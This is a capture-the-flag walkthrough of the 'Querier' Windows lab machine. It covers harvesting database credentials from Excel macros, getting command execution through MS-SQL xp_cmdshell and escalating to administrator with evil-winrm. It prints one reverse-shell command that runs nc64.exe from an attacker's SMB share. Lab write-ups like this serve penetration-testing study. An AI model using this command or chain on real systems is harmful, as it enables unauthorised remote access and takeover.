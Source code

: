 # Querier

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (2) (4) (2).png" alt=""><figcaption></figcaption></figure>

Interesting that there was a MS-SQL instance publicly open.

### XLSM Credentials

SMB allowed for null credentials to be accessed here:

<figure><img src="../../../.gitbook/assets/image (24) (2) (2).png" alt=""><figcaption></figcaption></figure>

Within the Reports directory, I found a .xlsm file.

<figure><img src="../../../.gitbook/assets/image (26) (7) (1).png" alt=""><figcaption></figcaption></figure>

We can download this Excel file back to our machine for analysis. Here, I used `oletools` to find out more about the file:

<figure><img src="../../../.gitbook/assets/image (1) (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can see how there are VBA Macros within this file. Again, we can use `olevba` to extract the code.

<figure><img src="../../../.gitbook/assets/image (15) (1) (6).png" alt=""><figcaption></figcaption></figure>

We found find this set of credentials for the database here.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can then use `mssqlclient.py` to authenticate as this `reporting` user for the database that is publicly facing forward.

<figure><img src="../../../.gitbook/assets/image (4) (5) (5).png" alt=""><figcaption></figcaption></figure>

### xp\_cmdshell

With access to the MS-SQL Database, I found that we are able to use `xp_cmdshell` to execute commands on the server.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell through whatever means. I executed `nc.exe` over SMB.

```
xp_cmdshell "\\<IP>\share\nc64.exe -e cmd <IP> 4444"
```

<figure><img src="../../../.gitbook/assets/image (27) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Now that we're in the machine, I ran winPEAS to enumerate possible escalation vectors. Funnily, it found the Administrator credentials in plaintext within the machine.

<figure><img src="../../../.gitbook/assets/image (7) (4) (3).png" alt=""><figcaption></figcaption></figure>

Earlier, Nmap detected that port 5985 for WinRM was open. As such, we can use `evil-winrm` to gain a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (44) (4) (1).png" alt=""><figcaption></figcaption></figure>
